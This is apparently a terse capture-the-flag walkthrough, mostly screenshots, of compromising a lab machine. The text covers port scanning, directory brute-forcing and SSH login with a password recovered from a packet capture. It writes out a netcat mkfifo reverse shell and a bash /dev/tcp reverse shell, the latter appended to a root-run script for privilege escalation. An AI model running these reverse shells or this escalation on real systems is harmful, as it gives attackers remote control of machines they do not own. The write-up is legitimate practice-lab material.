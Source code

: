 ## NMAP Scan 
![[Pasted image 20220130132141.png]]
Ports:
21 vsftpd 3.0.3
22 open SSH 7.2p2
80 Apache 2.4.18
## Web Server page
![[Pasted image 20220130132246.png]]

## gobuster scan
![[Pasted image 20220130134051.png]]

## /files directory in web server
![[Pasted image 20220130134251.png]]


![[Pasted image 20220130142511.png]]

![[Pasted image 20220130142446.png]]

![[Pasted image 20220130143657.png]]

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc hostip 4444 >/tmp/f
```

![[Pasted image 20220130144104.png]]

![[Pasted image 20220130150345.png]]

![[Pasted image 20220130150402.png]]

![[Pasted image 20220130153043.png]]

command: ssh lennie@targetIP, use password from pcap

go to user folder, check scripts folder, nano planner.sh, check /etc/print.sh
add line `

'bash -c "bash -i >& /dev/tcp/hostip/port 0>&1"' > /etc/print.sh

start netcat listener on another terminal tab

cat root.txt


